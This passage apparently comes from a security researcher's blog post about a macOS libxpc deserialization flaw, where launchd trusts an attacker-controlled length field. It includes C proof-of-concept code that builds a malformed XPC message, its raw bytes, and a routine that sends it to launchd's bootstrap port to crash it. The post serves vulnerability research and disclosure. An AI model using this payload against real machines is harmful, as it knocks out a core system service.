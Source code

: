 Note the comment `// TKTK: Cant do this!! Size is user controlled`. What I am doing is casting the raw memory to the base XPC message struct and processing based on the `type`. With the complex type, there is a entry called 'size' that should be the full size of that portion of the XPC object (to the next key string). However, this value is something that is controlled by whoever is constructing the message. It should not be trusted for obvious reasons.

When I ran my deserialization routine over the payload that was causing my machine to crash, it turns out that my code was also crashing on a `strlen`. I thought to myself - this couldn't be a coincidence. After stepping through my deserialization routine's crash, it became obvious. Just like my code, the `libxpc` code is trusting the 'length' value of these complex types, increasing a pointer based on that value, and assuming that is where the next key should be. If you have the size set to  it will attempt to read a string from the current offset + 0xFFFFFFFF, typically causing a segfault. 

Confirming my suspicious
------------------------
The next step was to create an arbitrary payload to test this theory. Of course I wanted to do it programatically, so I wrote a library that would take a set of custom `xpc_objects` and serialize them to the raw XPC packet. In order to be able to control all aspects of each XPC data object I had to recreate each custom type. I then created a minimum payload that should trigger the crash.

Sine this was being sent to `launchd` I needed a routine that would actually attempt to deserialize my XPC object. Based on some previous research I did with `launchctl` I knew that there was a basic XPC structure that needed to be sent, thus the 'handle,' 'subsystem,' and 'routine' keys. The code I used to do this with the complex string type was:

{% highlight c %}
xpc_serialization_value* vals[4] = {0,0,0,0};
vals[0] = create_xpc_serialization_uint64("handle", 1);
vals[1] = create_xpc_serialization_uint64("subsystem", 1);
vals[2] = create_xpc_serialization_string("a", "a");
((xpc_string_value*)vals[2]->value_pointer)->len = -1;
vals[3] = create_xpc_serialization_uint64("routine", 1);
xpc_serialized_object* obj = serialize_xpc_object(vals, 4);

// Print raw bytes of xpc_serialized_object
// Output => {0x21, 0x43, 0x50, 0x58, 0x05, 0x00, 0x00, 0x00, 0x00, 0xf0, 0x00, 0x00, 0x5c, 0x00, 0x00, 0x00, 0x04, 0x00, 0x00, 0x00, 0x68, 0x61, 0x6e, 0x64, 0x6c, 0x65,0x00, 0x00, 0x00, 0x40, 0x00, 0x00, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x73, 0x75, 0x62, 0x73, 0x79, 0x73, 0x74, 0x65, 0x6d, 0x00, 0x00, 0x00, 0x00, 0x40, 0x00, 0x00, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x61, 0x00, 0x00, 0x00, 0x00, 0x90, 0x00, 0x00, 0xff, 0xff, 0xff, 0xff, 0x61, 0x00, 0x00, 0x00, 0x72, 0x6f, 0x75, 0x74, 0x69, 0x6e, 0x65, 0x00, 0x00, 0x40, 0x00, 0x00, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00};
{% endhighlight %}

The code I used to trigger the crash:

{% highlight c %}
#include <xpc/xpc.h>
void send_payload(void * xpc_payload, unsigned int xpc_payload_size){
        unsigned int size = sizeof(mach_msg_header_t) + xpc_payload_size;
        unsigned char* payload = calloc(size, sizeof(char));

        memcpy(payload+sizeof(mach_msg_header_t), xpc_payload, xpc_payload_size);

        mach_port_t port;
        kern_return_t ret = task_get_bootstrap_port(mach_task_self(), &port);
        mach_msg_header_t *msg = (mach_msg_header_t *)payload;
        msg->msgh_id = 0x10000000;
        msg->msgh_remote_port = port;
        msg->msgh_local_port = MACH_PORT_NULL;
        msg->msgh_bits = MACH_MSGH_BITS_ZERO;
        msg->msgh_bits = MACH_MSGH_BITS(MACH_MSG_TYPE_COPY_SEND, 0);

        mach_msg_return_t msg_ret;
        msg->msgh_size = size;
        msg_ret = mach_msg_send(msg);
}
